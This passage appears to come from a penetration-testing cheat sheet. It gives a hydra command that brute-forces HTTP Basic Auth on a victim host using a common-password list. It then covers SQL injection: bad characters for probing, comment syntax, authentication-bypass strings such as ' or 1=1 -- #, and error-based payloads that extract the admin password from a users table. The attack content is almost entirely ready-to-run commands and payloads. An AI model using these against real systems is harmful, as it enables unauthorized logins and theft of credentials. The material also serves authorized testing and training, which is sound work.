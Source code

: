 HTTP BasicAuth (GET request):

```bash
# hydra http basic auth brute force
# Use https-get for https
hydra -L users.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt "http-get://$VICTIM_IP/loginpage:A=BASIC" http-get
```



### 4.5.3. SQL Injection

Tips:
- Test for SQL/NoSQL injection using "bad" chars: `'")}$%%;\`
  - Full list:
    ```
    '
    "
    \
    ;
    `
    )
    }
    --
    #
    /*
    //
    $
    %
    %%
    ```
- Watch out for apps stripping required trailing whitespace after `--`. Use `-- #` or similar.
- SQL comments:
  - `--` - requires trailing whitespace, widely supported
  - `/*` - multi-line comment, widely supported
  - `#` - MySQL
  - `REM` - Oracle
- When detecting errors due to SQLi, it may not be an obvious error message. Look for pattern changes/missing output to indicate error.

Auth bypass (try both username and password fields):

```
' or 1=1 -- #
admin' or 1=1 -- #
admin') or (1=1 -- #
```

Extracting data from error messages:

```
' or 1=1 in (select @@version) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

